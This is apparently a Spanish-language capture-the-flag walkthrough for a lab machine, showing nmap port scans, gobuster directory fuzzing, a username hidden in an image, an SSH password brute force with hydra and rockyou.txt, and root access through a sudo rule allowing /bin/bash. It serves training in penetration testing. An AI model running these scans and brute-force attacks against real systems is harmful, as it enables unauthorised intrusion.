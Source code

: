# BorazuwarahCTF
![image](https://github.com/user-attachments/assets/30562465-cc76-411d-9c42-d8cf6859c980)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
Como tenemos abierto el puerto 22 y 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDuOdJLZN+CNU+7dcTJQbPr6zY2+Ou1YFR0w9Pan1DfaPUZljRHJcNmvSncrihzQ3HOAHfMWWvSzN+ZMC0YmWoA=
|   256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGDv2JqKvBCR+Badmkr7YKPypEYshuCXxzM5+YdozyBD
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Utilizamos **gobuster** para hacer fuzzing y ver si encontramos directorios o páginas en el puerto 80.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
Encontramos únicamente ***index.html*** en la que únicamente vemos una imagen que procedemos a descargarla para ver si encontramos algo oculto dentro.

![image](https://github.com/user-attachments/assets/0e4abfa4-931c-40b0-800f-7d2921f4f966)

Vemos que dentro de la imagen encontramos un usuario **borazuwarah** que podemos utilizar para conectarnos por ***ssh*** por fuerza bruta con **hydra**.

## Explotación.

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![image](https://github.com/user-attachments/assets/d8d5ad7e-5e8c-4f21-8be9-3631844b1349)

Ahora nos conectamos por **ssh** con las credenciales obtenidas.

![image](https://github.com/user-attachments/assets/481a1e42-2d48-4fe3-b56f-4b320d8b4942)

## Escalada de privilegios.

Comprobamos si hay algún binario que podamos explotar y nos encontramos que podmos ejecutar como **root** una **/bin/bash**.

![image](https://github.com/user-attachments/assets/65af5a3f-6ad7-4ca0-bc70-fdcf3049cd2a)

```
sudo -u root /bin/bash
```
![image](https://github.com/user-attachments/assets/84a75270-1f2a-4748-8eb0-6f194110f104)




